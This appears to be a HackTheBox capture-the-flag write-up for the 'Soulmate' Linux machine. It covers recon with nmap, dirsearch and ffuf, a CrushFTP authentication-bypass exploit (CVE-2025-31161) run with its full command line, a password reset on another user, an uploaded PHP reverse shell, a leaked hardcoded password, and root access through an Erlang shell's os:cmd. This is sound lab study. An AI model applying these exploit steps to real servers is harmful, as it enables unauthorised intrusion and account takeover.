 # Soulmate

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Details |
| :--- | :--- | :--- | :--- |
| 1 | `(Local)` | Nmap Scan, Dirsearch, Subdomain Fuzzing | The initial **Nmap** scan revealed ports **22 (SSH)**, **80 (HTTP)**, and **8000 (HTTP-alt)**. A **Dirsearch** scan on port 80 identified a standard web application with login and registration pages. **Subdomain fuzzing** with `ffuf` led to the discovery of the `ftp.soulmate.htb` subdomain. |
| 2 | `z0n` | Exploiting CrushFTP (CVE-2025-31161) | The `ftp` subdomain was found to be running an instance of **CrushFTP**. A search for public exploits uncovered **CVE-2025-31161**, an authentication bypass vulnerability. A Python script was used to exploit this vulnerability, allowing for the creation of a new user account with a chosen username (`z0n`) and password (`admin123`). |
| 3 | `ben` | Credential Reuse, FTP Panel Enumeration | Logging into the FTP panel as the newly created user `z0n` revealed a user management module. The password for the user `ben` was changed through this module. With the new password, access was gained to the FTP account of `ben`, which had write permissions to the `/webProd` directory, corresponding to the web root of `soulmate.htb`. |
| 4 | `www-data` | Reverse Shell | A PHP reverse shell payload was uploaded to the `/webProd` directory via the FTP panel. By navigating to the reverse shell's URL in a browser, a connection was established, providing a low-privilege shell as the **`www-data`** user. This user is commonly associated with web server processes. |
| 5 | `ben` | Information Gathering (File Analysis) | From the `www-data` shell, a thorough file system enumeration was performed. The file `/usr/local/lib/erlang_login/start.escript` was discovered, which contained a hardcoded password for the **`ben`** user: `HouseH0ldings998`. This password was then used to gain SSH access on port 22 as the `ben` user. |
| 6 | `root` | Erlang Shell Exploitation | As the `ben` user, a port scan on the loopback interface (`127.0.0.1`) revealed an Erlang-based SSH service listening on port **2222**. A connection to this service via `netcat` (`nc`) granted access to an Erlang interpreter shell. By checking the loaded modules (`m().`), the `os` module was found. The `os:cmd("whoami").` command was used to execute a shell command, which returned **`root`**, confirming that the service was running with root privileges and allowing for full system control. |


### Initial Enumeration 🕵️‍♂️

The reconnaissance phase began with an **Nmap** scan to identify the network services running on the target machine `soulmate.htb`.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] nmap soulmate.htb -A
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
8000/tcp open  http-alt?
```

The results showed three open ports:

  * **Port 22:** Running **OpenSSH 8.9p1**, which indicated the possibility of remote shell access if valid credentials were found.
  * **Port 80:** Running **Nginx 1.18.0** for a web server, which served the main `soulmate.htb` website. The `http-title` was `Soulmate - Find Your Perfect Match`, suggesting a dating-themed web application.
  * **Port 8000:** Running an unknown `http-alt` service, possibly another web server or API. The OS details suggested it was a Linux kernel version between 4.15 and 5.19.

-----

### Web Enumeration & Subdomain Fuzzing 🌐

With the web server identified, the next step was to explore the directories and files on the main website using **Dirsearch**.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] dirsearch -u 'http://soulmate.htb'
[21:15:24] 301 -   178B - /assets  ->  http://soulmate.htb/assets/
[21:15:28] 302 -     0B - /dashboard.php  ->  /login
[21:15:33] 200 -   16KB - /index.php
[21:15:35] 200 -    8KB - /login.php
[21:15:35] 302 -     0B - /logout.php  ->  login.php
[21:15:40] 302 -     0B - /profile.php  ->  /login
[21:15:41] 200 -   11KB - /register.php
[21:15:42] 301 -   178B - /shell  ->  http://soulmate.htb/shell/
[21:15:42] 403 -   564B - /shell/
```

The scan returned several files and directories, including `/login.php`, `/register.php`, and `/dashboard.php`, which are typical for a web application requiring user authentication. The `/shell` directory was a notable find, but it returned a `403 Forbidden` status code, indicating it was protected from direct access.

Given the potential for a larger attack surface, a **subdomain fuzzing** attack was executed using `ffuf` to check for other hosted websites.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] ffuf -u 'http://soulmate.htb/' -H 'Host: FUZZ.soulmate.htb' -w /usr/share/fuzzDicts/subdomainDicts/main.txt -fw 4
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 209ms]
```

The subdomain `ftp.soulmate.htb` was discovered. A `302` redirect indicated that this subdomain was an alias or redirecting to another service. A manual visit to this subdomain showed a web-based FTP panel, which appeared to be a product called **CrushFTP**.


![Subdomain](Pictures/htb_soulmate_ftp.png)


-----

### Exploiting CrushFTP to Gain a Foothold 💥

Searching for vulnerabilities in "CrushFTP" revealed a recent authentication bypass vulnerability, **CVE-2025-31161**, which allowed an attacker to create a new user account without proper authentication. A public proof-of-concept (PoC) script was available for this exploit.

![CVE_Exploit](Pictures/htb_soulmate_CVE_EXP.png)

The Python PoC script was used to create a new user named `z0n` with the password `admin123`.

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user z0n --password admin123
[+] Exploit Complete you can now login with
[*] Username: z0n
[*] Password: admin123
```



Successfully logging into the CrushFTP panel with the newly created credentials, a user management module was discovered. 


![Accessed_portal](Pictures/htb_soulmate_ftp_cve_exp_done.png)


Although the `z0n` user had no permissions to access files,

![Admin](Pictures/htb_soulmate_admin_web.png) 

the user management module allowed for modifying other users' passwords.

![User](Pictures/htb_soulmate_user_man.png) 

The password for the user `ben` was changed.

![Password_change](Pictures/htb_soulmate_ben_man.png)



After changing the password, 

![Login_Portal](Pictures/htb_soulmate_ben_login.png)

logging in as `ben` revealed access to the `webProd` directory, which was mapped to the web root of `soulmate.htb`. This was a critical finding as it allowed for a remote code execution (RCE) payload to be uploaded. A simple PHP reverse shell was uploaded to this directory.

![File_Upload](Pictures/htb_soulmate_shell_upload_web_prod.png)

Navigating to the reverse shell's URL in a browser triggered the payload, and a low-privilege shell was established as the **`www-data`** user.


-----

### Privilege Escalation to `ben` 🚶‍♂️

Inside the `www-data` shell, the file system was explored. A particularly interesting file was found at `/usr/local/lib/erlang_login/start.escript`.

![Secret](Pictures/htb_soulmate_Web_rev.png)

 This script appeared to be a custom SSH login script written in Erlang.

```bash
www-data@soulmate:/tmp$ cat /usr/local/lib/erlang_login/start.escript
...
{user_passwords, [{"ben", "HouXXXXXXXXXXXXX"}]},
...
```

The script contained a hardcoded password for the `ben` user: `HouXXXXXXXXXXXXX`. This password was then used to log into the main SSH service on port 22, successfully gaining a shell as the user `ben`.

![User_flag](Pictures/htb_soulmate_Usr_flag.png)

-----

### Privilege Escalation to `root` 👑

As the `ben` user, the `ss` command was used to check the listening network sockets to find any potential internal services.

```bash
ben@soulmate:~$ ss -tuln
...
tcp           LISTEN         0              5                          127.0.0.1:2222                       0.0.0.0:*
...
```

```bash
ben@soulmate:~$ ssh ben@127.0.0.1 -p 2222
...
```

The output showed an Erlang-based SSH service listening on port **2222**, but only on the loopback interface (`127.0.0.1`). This meant it could only be accessed from the machine itself.

A direct connection was attempted using `nc 127.0.0.1 2222`, which confirmed the service was active and responded with an Erlang shell prompt `(ssh_runner@soulmate)1>`.

Inside the Erlang shell, the `m().` command was executed to list all loaded modules. The **`os`** module was listed, a key finding as it is used for interacting with the operating system.

```erlang
(ssh_runner@soulmate)2> m().
Module                File
<skip>
os                    /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam
<skip>
```

With the `os` module available, it was possible to execute arbitrary shell commands using the `os:cmd()` function. To check the current user's privileges, `whoami` was executed.

```erlang
(ssh_runner@soulmate)2> os:cmd("whoami").
"root\n"
```

![Root_Flag](Pictures/htb_soulmate_Root_flag.png)

The output returned **`root`**, indicating that the Erlang SSH service was running with `root` privileges. This allowed for full control over the system as `root` and the capture of the final flag.

**Pwned! Soulmate**


-->